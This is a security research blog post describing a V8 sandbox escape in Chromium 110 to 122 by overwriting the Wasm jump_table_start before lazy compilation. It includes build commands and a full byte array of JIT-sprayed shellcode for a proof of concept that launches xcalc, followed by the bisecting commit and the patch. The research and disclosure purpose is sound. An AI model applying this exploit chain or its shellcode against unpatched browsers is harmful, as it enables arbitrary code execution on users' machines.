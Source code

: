 # Escaping V8 Sandbox via WebAssembly JIT Spraying: Part 2 (110.0.5481.77 <= Chromium < 122.0.6261.57)

After the [patch](https://chromium.googlesource.com/v8/v8/+/2eb73988a37a60520a0f8e0b1109edbcc0b91415) for the exploitation technique explained in [part 1](https://aaronsjcho.github.io/Escaping-V8-Sandbox-via-WebAssembly-JIT-Spraying-Part-1/), we cannot directly overwrite call target and control `rip`. However, a new technique was introduced because of newly implemented lazy compilation for Wasm function. I will explain about this in this post.

## Setup

- Ubuntu 22.04.5 LTS (WSL)
- [8cf17a14a78cc1276eb42e1b4bb699f705675530](https://chromium.googlesource.com/v8/v8/+/8cf17a14a78cc1276eb42e1b4bb699f705675530) (Jan 4th, 2024)

Run [`setup.zsh`](./setup.zsh) in your working directory.
## Analysis

### WebAssembly lazy compilation

```js
/*
(module
    (func (export "f1"))
    (func (export "f2"))
    (func (export "f3"))
    (func (export "f4"))
)
*/
let wasm_src = new Uint8Array([0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x5, 0x4, 0x0, 0x0, 0x0, 0x0, 0x7, 0x15, 0x4, 0x2, 0x66, 0x31, 0x0, 0x0, 0x2, 0x66, 0x32, 0x0, 0x1, 0x2, 0x66, 0x33, 0x0, 0x2, 0x2, 0x66, 0x34, 0x0, 0x3, 0xa, 0xd, 0x4, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb]);
let wasm_module = new WebAssembly.Module(wasm_src);
```

When a Wasm module is constructed, a memory region whose permission is set to RWX is allocated for compiling and executing Wasm functions.

![](img/1.png)

There is jump table at the very front of this region, which is responsible for deciding execution flow when Wasm function is called.

![](img/2.png)

When a function is called for the first time, it jumps to `Builtins_WasmCompileLazy()` and compile the function lazily in run-time.

![](img/3.png)

From the second call, it directly jumps to compiled code.

`Builtins_WasmCompileLazy()` is generate by [`Builtins::Generate_WasmCompileLazy()`](https://source.chromium.org/chromium/v8/v8/+/8cf17a14a78cc1276eb42e1b4bb699f705675530:src/builtins/x64/builtins-x64.cc;l=3118). It adds code which [set `r15` to `jump_table_start` in `WasmInstanceObject`](https://source.chromium.org/chromium/v8/v8/+/8cf17a14a78cc1276eb42e1b4bb699f705675530:src/builtins/x64/builtins-x64.cc;l=3145) and [jumps to `r15`](https://source.chromium.org/chromium/v8/v8/+/8cf17a14a78cc1276eb42e1b4bb699f705675530:src/builtins/x64/builtins-x64.cc;l=3151). As a result, generated code of `Builtins_WasmCompileLazy()` looks like following:

![](img/4.png)

## Exploitation

### Hijack execution flow

With lazy compilation enabled, we can overwrite `jump_table_start` with the address which we want to jump to, before Wasm function is compiled. Then, `Builtins_WasmCompileLazy()` will jump to the address after compilation is over, which means that we can control `rip`.

[`shellcode.py`](./shellcode.py)

[`pwn.wat`](./pwn.wat)

[`wasm.py`](./wasm.py)

```zsh
~/wabt/bin/wat2wasm pwn.wat # output: pwn.wasm
python3 wasm.py # output: [0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0xb1, 0x1, 0x1, 0xae, 0x1, 0x0, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xb2, 0x9b, 0x86, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0xdf, 0xe0, 0x9b, 0x96, 0x8c, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x82, 0x83, 0x87, 0x82, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x8a, 0xbc, 0x91, 0x96, 0xcd, 0xdb, 0xf5, 0x2, 0x42, 0xd0, 0x90, 0xa5, 0xbc, 0x8e, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0xe2, 0xd8, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0x90, 0x91, 0xc5, 0x81, 0x8c, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xea, 0x81, 0x83, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0x99, 0x85, 0xca, 0xd5, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x90, 0x91, 0x85, 0x86, 0x8e, 0x84, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x8a, 0x90, 0xca, 0xb4, 0x8a, 0xd4, 0xf5, 0x6, 0x42, 0xd0, 0x90, 0xa5, 0x84, 0x8e, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0xec, 0x9e, 0x85, 0x8a, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x92, 0x8a, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0xbb, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x8f, 0x8a, 0xc0, 0x84, 0x89, 0x92, 0xa4, 0xc8, 0x90, 0x7f, 0xf, 0xb]
```

You have to install `/bin/xcalc` by running `sudo apt install -y x11-apps` before executing [`pwn.js`](./pwn.js) if you are using WSL.

![](img/5.png)

## Bisection

> [[wasm] Enable lazy compilation by default](https://chromium.googlesource.com/v8/v8/+/29131d5e3ea9cbfeae3e6dc3fd6c4439f0ac4bde) (Nov 14th, 2022)

The new exploitation technique explained in this post was introduced in the commit above, which enabled lazy compilation for Wasm function by default.

## Patch

> [[wasm] Introduce WasmTrustedInstanceData](https://chromium.googlesource.com/v8/v8/+/59acab802a319da23c1c005e062fbc2bab4d348b) (Jan 4th, 2024)
> This CL moves most data from the WasmInstanceObject to a new WasmTrustedInstanceData. As the name suggests, this new object is allocated in the trusted space and can hence hold otherwise-unsafe data (like direct pointers). As the Wasm instance was still storing some unsafe pointers, this CL closes holes in the V8 sandbox, and allows us to land follow-up refactorings to remove more indirections for sandboxing (potentially after moving more data structures to the trusted space).